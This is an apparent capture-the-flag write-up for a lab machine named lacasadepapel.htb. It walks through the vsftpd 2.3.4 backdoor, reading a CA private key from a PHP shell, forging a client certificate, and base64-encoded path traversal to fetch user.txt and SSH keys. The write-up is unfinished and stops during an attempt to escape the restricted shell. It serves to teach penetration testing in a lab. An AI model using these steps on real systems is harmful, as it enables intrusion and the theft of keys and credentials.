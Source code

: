 ![logo](./logo.png)

# User

After an nmap scan it can be seen that the server is running vsftpd 2.3.4.
This version has a ```:)``` backdoor.

Msfconsole:
```
exploit/unix/ftp/vsftpd_234_backdoor
```

This opens the port ```6200``` to give us:

```
Psy Shell v0.9.9 (PHP 7.2.10 â cli) by Justin Hileman
```

This seems like a debugging cli for PHP

Running ```ls``` on the cli gives us a listing of local variables. It returns:

```
Variables: $tokyo
```

Then running ```show $tokyo``` gives a code listing

```
  > 2| class Tokyo {
    3| 	private function sign($caCert,$userCsr) {
    4| 		$caKey = file_get_contents('/home/nairobi/ca.key');
    5| 		$userCert = openssl_csr_sign($userCsr, $caCert, $caKey, 365, ['digest_alg'=>'sha256']);
    6| 		openssl_x509_export($userCert, $userCertOut);
    7| 		return $userCertOut;
    8| 	}
    9| }
```
An important bit off info is the file path ```/home/nairobi/ca.key```

Running private PHP methods:

```
$x = new Tokyo();
$reflector = new ReflectionObject($x);
$method = $reflector->getMethod('sign');
$method->setAccessible(true);

```

This will let us sign and create a user cert

I navigated to the https endpoint and downloaded the CA cert for use in the algo

We also need to make a User CSR **(Certificate Signing Request)**

```
openssl req -nodes -newkey rsa:2048 -keyout user.key -out user.csr -subj "O=La Casa De Papel/CN=lacasadepapel.htb"
```

By running this command:
```
echo $method->invoke($x, "-----BEGIN CERTIFICATE-----
MIIC6jCCAdICCQDISiE8M6B29jANBgkqhkiG9w0BAQsFADA3MRowGAYDVQQDDBFs
YWNhc2FkZXBhcGVsLmh0YjEZMBcGA1UECgwQTGEgQ2FzYSBEZSBQYXBlbDAeFw0x
OTAxMjcwODM1MzBaFw0yOTAxMjQwODM1MzBaMDcxGjAYBgNVBAMMEWxhY2FzYWRl
cGFwZWwuaHRiMRkwFwYDVQQKDBBMYSBDYXNhIERlIFBhcGVsMIIBIjANBgkqhkiG
9w0BAQEFAAOCAQ8AMIIBCgKCAQEAz3M6VN7OD5sHW+zCbIv/5vJpuaxJF3A5q2rV
QJNqU1sFsbnaPxRbFgAtc8hVeMNii2nCFO8PGGs9P9pvoy8e8DR9ksBQYyXqOZZ8
/rsdxwfjYVgv+a3UbJNO4e9Sd3b8GL+4XIzzSi3EZbl7dlsOhl4+KB4cM4hNhE5B
4K8UKe4wfKS/ekgyCRTRENVqqd3izZzz232yyzFvDGEOFJVzmhlHVypqsfS9rKUV
ESPHczaEQld3kupVrt/mBqwuKe99sluQzORqO1xMqbNgb55ZD66vQBSkN2PwBeiR
PBRNXfnWla3Gkabukpu9xR9o+l7ut13PXdQ/fPflLDwnu5wMZwIDAQABMA0GCSqG
SIb3DQEBCwUAA4IBAQCuo8yzORz4pby9tF1CK/4cZKDYcGT/wpa1v6lmD5CPuS+C
hXXBjK0gPRAPhpF95DO7ilyJbfIc2xIRh1cgX6L0ui/SyxaKHgmEE8ewQea/eKu6
vmgh3JkChYqvVwk7HRWaSaFzOiWMKUU8mB/7L95+mNU7DVVUYB9vaPSqxqfX6ywx
BoJEm7yf7QlJTH3FSzfew1pgMyPxx0cAb5ctjQTLbUj1rcE9PgcSki/j9WyJltkI
EqSngyuJEu3qYGoM0O5gtX13jszgJP+dA3vZ1wqFjKlWs2l89pb/hwRR2raqDwli
MgnURkjwvR1kalXCvx9cST6nCkxF2TxlmRpyNXy4
-----END CERTIFICATE-----
", "-----BEGIN CERTIFICATE REQUEST-----
MIICfDCCAWQCAQAwNzEZMBcGA1UECgwQTGEgQ2FzYSBEZSBQYXBlbDEaMBgGA1UE
AwwRbGFjYXNhZGVwYXBlbC5odGIwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEK
AoIBAQCmUq+K7RExpveU8RRcxyzhHRDAhhub7cjBULLU+1frmHPEBxleJ5loqORE
X1mGQdIlN2sksYFcvDNW2n7JExhSwKXw21bhyQdGQYg+7I1Y43IsEOZSf/xlOJRF
6/FnHkXHRZTtJm30HJ6OpApTeVHjrowCganjIYAgotdG3C1gUYU9seu6tNeOil3A
9ta99u3JYRWi884247SgupsurZ2TVheZ6OxoYBaEgFVv4trW6QgB8VJsEOg937Tu
Tb+dTjsZa5EwjuzllUjRTk2veUJE0J+BWdFc9O5oBPhoF+Px8+3CTsKWBiKfRtyG
uq8NTL4MfnjqBEdXvwc+kUpOi0x7AgMBAAGgADANBgkqhkiG9w0BAQsFAAOCAQEA
dxTb62Dn0aBhksH/oJpoNomQlqj7hEsQestu6Za5FREyJJu6AiuYzGnLI89ZvlEv
YMtvTErU60NIvVXZZcrNopXyuiceM8HPvEbIQFaOhh/iz62fNjAddOdIItjgAK5o
EmiyDwgABBAFDHzP5hLZrhQ0YcrkZ0LwuVdsUgYjWo83HJkUtX64nMq+Yhdmvq2n
LYCgyChmMmH66aEYAHWOZPONCTIq4tqmWGr9SPPTAt683OGqwWoxB0oHKkFtR6vu
KfL6K9/P96nYpP4beXMkWZDduGO8V4ELSgAKWoGRtOBf7732H1oUvYeJgIbEEXzt
6POSWQ380THZwsyRm6YyLg==
-----END CERTIFICATE REQUEST-----");
```

It provides us with a signed certificate!

Running:
```
$caKey = file_get_contents('/home/nairobi/ca.key');
```
Will give us the ca.key used to signed the certificate. This will let us turn the signed cert into a pk12 file


Chagning into a pk12 file:
```
openssl pkcs12 -export -inkey ca.key -in signed.crt -out signed.p12
```

Using this cert brings us to a ```PRIVATE AREA``` where we can request files with this URL:

```
https://10.10.10.131/?path=X
```

From error messages we seem to be in:

```
/home/berlin/downloads/home/
```

When downloading files we're directed to a url like so:
```
https://10.10.10.131/file/Li4vZG93bmxvYWRzL1NFQVNPTi0yLzAxLmF2aQ==
```

This is a base64 encoded file path. In theory this should let us encode our own

Below is ```../user.txt``` url:

```
../user.txt
Li4vdXNlci50eHQ=
```

This gives us the user.txt. We can repeat this process with the .ssh keys

Note: ```-n``` option is needed with ```echo``` to make sure there is not trailing newline

Extracting the ssh keys for ```berlin``` doesn't let us login with ssh. This is due to the keys not being in the ```authorized_keys``` file

We can write in ```dali``` home using:

```
$myfile = fopen("/home/dali/server.js", "w") 
```

This can be used to add the key to the ```authorized_keys```. However, when connecting via ssh the shell is just the PsyShell instance

Is there a way to escape?

foreach($f as $filename){
    echo $filename;
    echo file_get_contents($filename);
}

$fileList = glob('/home/dali/.config/*');
